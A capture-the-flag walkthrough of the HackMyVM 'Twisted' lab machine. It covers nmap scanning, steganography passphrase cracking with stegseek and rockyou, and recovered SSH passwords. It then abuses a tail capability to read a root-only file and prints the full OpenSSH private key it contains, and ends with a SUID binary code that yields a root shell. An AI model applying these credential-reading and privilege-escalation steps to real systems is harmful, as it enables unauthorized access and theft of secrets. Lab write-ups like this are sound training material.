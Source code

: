 ```yaml
---
title: "Twisted - HackMyVM Walkthrough"
---
```


Description:
An easy one. Tested on Vbox.

nmap service scan: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 17:29 EDT
Nmap scan report for 192.168.56.254
Host is up (0.0015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.14.2
2222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
So a web server and a ssh service running on a peculiar port of 2222. 

We get a webpage with two "identical" images on it. Let's wget the images and run 
stego tools on them to see if there's any additional information hidden in them. 
stegseek results:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ stegseek cat-hidden.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sexymama"

[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".
{% endhighlight %}

from the text file we have the user name mateo and the password thisismypassword. 
These credentials worked when logging in via SSH. 

Local enumeration:

note.txt:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
mateo@twisted:~$ cat note.txt 
/var/www/html/gogogo.wav
{% endhighlight %}

Seeing as this wav file can be accessed in the browser, I downloaded and listened to 
it. It's morse code. Let's run the file through a website that detects morse code in
WAV files: https://morsecode.world/international/decoder/audio-decoder-adaptive.html


Message from the file: 
>G O D E E P E R . . . C O M E W I T H M E . . . L I T T L E R A B B I T . . .

There are three users on the system. bonita, markus and mateo. bonita has a SUID 
binary in the directory called `beroot`. 

SGID binaries: 
{% highlight terminal %}
mateo@twisted:~$ find / -perm -g=s -type f 2>/dev/null 
/home/bonita/beroot
/usr/bin/chage
/usr/bin/ssh-agent
/usr/bin/wall
/usr/bin/dotlockfile
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/bsd-write
/usr/sbin/unix_chkpwd
{% endhighlight %}

SUID binaries: 
{% highlight terminal %}
mateo@twisted:~$ find / -perm -u=s -type f 2>/dev/null 
/home/bonita/beroot
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
{% endhighlight %}

World writeable folders: 
{% highlight terminal %}
mateo@twisted:~$ find / -perm -222 -type d 2>/dev/null 
/tmp
/tmp/.XIM-unix
/tmp/.X11-unix
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/dev/mqueue
/dev/shm
/run/lock
/var/tmp
{% endhighlight %}

Trying to bruteforce the ssh credentials of the other users failed.

I overlooked running the original cat picture through stegseek. Let's do that now:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/twisted]
└─$ stegseek cat-original.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "westlife"

[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".
{% endhighlight %}

We get the login credentials for markus: markus:markuslovesbonita

Let's use them to login as markus over SSH. 
Local enumeration:

{% highlight terminal %}
markus@twisted:~$ cat note.txt 
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it.
{% endhighlight %}

Only root can read and write to the id_rsa file in that directory, so we'll need to
find another way of escalating privileges. 

After running linpeas.sh:
{% highlight terminal %}
Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
{% endhighlight %}

Using tail to read the id_rsa file:
{% highlight terminal %}
markus@twisted:~$ tail -n 70 /var/cache/apt/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

Using RSA key to log in as bonita. 

After some static analysis using radare2, I found the value of the code we needed to
get a root shell:
{% highlight terminal %}
bonita@twisted:~$ ./beroot 
Enter the code:
 5880
root@twisted:~# 
{% endhighlight %}

Flags submitted and points added to score. Hooray for points. 
